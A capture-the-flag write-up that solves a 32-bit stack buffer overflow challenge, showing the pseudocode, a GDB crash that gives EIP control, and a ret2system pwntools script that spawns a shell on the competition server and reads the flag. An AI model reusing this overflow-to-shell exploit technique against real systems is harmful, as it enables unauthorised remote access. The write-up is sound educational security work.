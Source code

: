 # Pwn 300 - Library

We are given a nc server, ```nc 40.76.33.15 41141```, and a 32 bit binary. 

Here is the pseudocode:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("echo 'Good luck on your final pwning voyage of the competition\n'");
  vuln();
  return 0;
}

char *vuln()
{
  int s; // [esp+6h] [ebp-62h]
  __int16 v2; // [esp+Ah] [ebp-5Eh]
  int v3; // [esp+5Ch] [ebp-Ch]

  puts("You have input, find an exploit that would make John Purdue proud");
  s = 0;
  v3 = 0;
  memset(
    (void *)((unsigned int)&v2 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&s - ((unsigned int)&v2 & 0xFFFFFFFC) + 90) & 0xFFFFFFFC) >> 2));
  return fgets((char *)&s, 150, stdin);
}
```

Again, we have an overflow in the vuln function, which we can confirm in GDB:

```
root@ctf:~# gdb library
Reading symbols from library...(no debugging symbols found)...done.
(gdb) r
Starting program: /root/library
Good luck on your final pwning voyage of the competition
 0:ssh*                                                                                                14/10  21:42:51 You have input, find an exploit that would make John Purdue proud
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999

Program received signal SIGSEGV, Segmentation fault.
0x30305a5a in ?? ()
(gdb)
```

Segmentation fault means that the program tried to access invalid memory. In this case, eip is 0x30305a5a, which is invalid memory. That's because it is ZZ00, our input.

So now we control eip, but sadly there's no print flag function. Instead, we can reuse code. Let's take a look at the assembly for main:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804849b <+0>:     lea    0x4(%esp),%ecx
   0x0804849f <+4>:     and    $0xfffffff0,%esp
   0x080484a2 <+7>:     pushl  -0x4(%ecx)
   0x080484a5 <+10>:    push   %ebp
   0x080484a6 <+11>:    mov    %esp,%ebp
   0x080484a8 <+13>:    push   %ecx
   0x080484a9 <+14>:    sub    $0x4,%esp
   0x080484ac <+17>:    sub    $0xc,%esp
   0x080484af <+20>:    push   $0x80485c0
   0x080484b4 <+25>:    call   0x8048370 <system@plt>
   0x080484b9 <+30>:    add    $0x10,%esp
   0x080484bc <+33>:    call   0x80484ce <vuln>
   0x080484c1 <+38>:    mov    $0x0,%eax
   0x080484c6 <+43>:    mov    -0x4(%ebp),%ecx
   0x080484c9 <+46>:    leave
   0x080484ca <+47>:    lea    -0x4(%ecx),%esp
   0x080484cd <+50>:    ret
End of assembler dump.
(gdb)
```

These two lines are of interest:

```
0x080484af <+20>:    push   $0x80485c0
   0x080484b4 <+25>:    call   0x8048370 <system@plt>
   ```
   
See how in the pseudocode ```system("echo 'Good luck on your final pwning voyage of the competition\n'");``` is called? That's how you do it in assembly. The address of the string is pushed onto the stack, then the return address is pushed with the call function, then the program jumps to system.

So the stack would look like: ```<ret address> <argument>``` when system is called. We can replicate the stack to have the first argument be "/bin/sh" because we have a stack buffer overflow. The format would have to be ```<anything because we don't care about return address> <address of /bin/sh string>```.

Luckily the problem author was nice enough to include a /bin/sh string in the binary, although it is still solvable without:

```
.data:0804A024                 public g_helpful_string
.data:0804A024 g_helpful_string db '/bin/sh',0
```

So our input would have to be <padding> <system address> <anything> <address of binsh string>. Here is my code to do so:

```python
from pwn import *

#r = process("./library")
r = remote("40.76.33.15", 41141)
payload = "A"*102
binsh = 0x0804A024
system = 0x8048370

payload += p32(system)
payload += "AAAA"
payload += p32(binsh)
r.sendline(payload)
r.interactive()
```

```
root@ctf:~# python solve.py
[+] Opening connection to 40.76.33.15 on port 41141: Done
[*] Switching to interactive mode
Good luck on your final pwning voyage of the competition

$ id
uid=1005(library) gid=1005(library) groups=1005(library)
$ cat home/library/flag.txt
b0ctf{b01lers_1z_pr0ud_th4t_y0u_s01v3d_th1$}
```

## Flag
### b0ctf{b01lers_1z_pr0ud_th4t_y0u_s01v3d_th1$}

